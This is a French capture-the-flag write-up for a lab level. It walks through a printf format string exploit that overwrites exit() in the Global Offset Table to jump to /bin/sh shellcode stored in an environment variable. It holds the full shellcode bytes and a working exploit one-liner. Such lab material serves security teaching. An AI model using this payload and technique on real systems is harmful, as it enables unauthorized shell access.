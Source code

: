 # Level05:

Dans ce level05 le code est assez simple, il faut faire une **String format exploit** sur l'entree standard.

On veut connaitre l'adresse de `exit()` dans la **Global Offset Table** a l'aide de la commande suivant nous la trouvons sans soucis:
`objdump -R ./level05`

![strings.png](./strings.png)

En suite il nous faut connaitre l'offset de l'adresse dans le printf:

```for i in {0..20}; do (python -c 'print "aaaa " + str('$i') + " => %" + str('$i') + "$p"') | ./level05; done;```

Avec la commande ci-dessus nous observons que le les **aaaa** se retrouvent a l'index 10:

![printf.png](./printf.png)

A partir de la il suffit de placer notre exploit dans les variable d'environnement comme suit:

`export EXPLOIT=$(python -c "print '\x90' * 300 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'")`

Nous pouvons maintenant contruire notre string pour remplacer l'adresse de `exit()` par celle de notre exploit que nous avons recupere comme suit:
`x/500x $esp-200`

![find.png](./find.png)

On va donc garder `0xffffd854` pour l'adresse de l'exploit.

Maintenant on decompose les deux parties, `0xffff` et `0xd854`
Et nous allons ecrire les deux shorts l'un apres l'autre en commencant par le poid faible (`0xd854`):

Donc sachant que `0xd854` = `55380`, nous allons ecrire `55380` - la longueur des adresses (8) soit `55372` pour le premier short et `0xffff` - `0xd854` = `0x27ab` soit 10155

[**Adresse EXPLOIT**][**Adresse exploit + 2 bytes**][**Padding pour les 2 premiers bytes**][**Padding pour les 2 suivants**]
`(python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%55372d%10$hn" + "%10155d%11$hn"' ; cat) | ./level05`

On accede donc comme prevu a un shell.
![result.png](./result.png)